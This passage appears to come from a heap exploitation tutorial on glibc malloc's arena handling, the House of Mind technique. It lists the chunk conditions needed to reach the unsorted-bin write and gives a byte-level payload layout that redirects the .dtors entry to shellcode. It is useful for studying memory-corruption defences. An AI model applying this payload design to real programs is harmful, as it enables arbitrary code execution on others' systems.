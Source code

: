 #### 3) Road map  

The arena_for_chunk macro just checks if the NON_MAIN_ARENA flag is set if the flag is not set, then the main_arena pointer is returned, otherwise  the heap_for_ptr just performs a “ptr AND 0xFFF00000” and returns the result. 


 The trick is to make the program allocate more and more memory until a chunk is allocated over 0x08100000 in order to have the heap_info structure “located” at 0x08100000.
 
 Now we control ar_ptr i.e first var in heap_info struct 
 
 If the following conditions on the chunk are met, then the unsorted_chunks code is executed:
 
 
   * The size of the chunk must not be less than av->max_fast
   * The IS_MMAPPED bit of the size cannot be set
   * The overflowed chunk cannot equal av->top
   * The NONCONTIGUOUS_BIT of av->max_fast must be set
   * The PREV_INUSE bit of the nextchunk (chunk + size) must be set
   * The size of nextchunk must be greater than 8
   * The size of nextchunk must be less than av->system_mem
   * The PREV_INUSE bit of the chunk must not be set
   * The nextchunk cannot equal av->top
   * The PREV_INUSE bit of the chunk after nextchunk (nextchunk + nextsize) must be set

If all these conditions are met, then the following piece of code is executed:
```
bck = unsorted_chunks(av);  // bck = &(av-bins[0])
fwd = bck->fd;   [derefrenced once ]
p->bk = bck;         <<<<==== same as unlink !!!
p->fd = fwd;
bck->fd = p;  
fwd->bk = p;    [written once]
```

when free(0x8100000) happens the heap_for_ptr() returns ptr itself (since size is modified by overflow) 
now heap_for_ptr()->ar_ptr makes us control of ar_ptr and let's say we set it 1 chunk addr+8
and place shellcode in p  , fwd->bk (let's say eip) = p (shellcode addr).

#### 4) payload 

```
0xAA 0xAA 0xAA 0xAA            will be overwritten with garbage by free()
0xAA 0xAA 0xAA 0xAA            will be overwritten with garbage by free()

0x00 0x00 0x00 0x00            av->mutex = 0

0x02 0x01 0x00 0x00            -\
0x02 0x01 0x00 0x00             |
0x02 0x01 0x00 0x00             | av->max_fast = 0x102 = 258
0x02 0x01 0x00 0x00             | (written multiple times just to be
0x02 0x01 0x00 0x00             | sure of hitting it)
0x02 0x01 0x00 0x00             |
0x02 0x01 0x00 0x00             |
0x02 0x01 0x00 0x00            -/

0x...  DTORS_END-12            -\
0x...  DTORS_END-12             | av->bins[0]
[...]                           | repeated 246 times 
0x...  DTORS_END-12            -/

0x09 0x04 0x00 0x00 malloc'ed chunk's size    -\
0x41 0x41 0x41 0x41 -\                         |
[...]                | garbage data * 257      |
0x41 0x41 0x41 0x41 -/                         | repeated 721 times
[...]                                          | (all the chunks)
```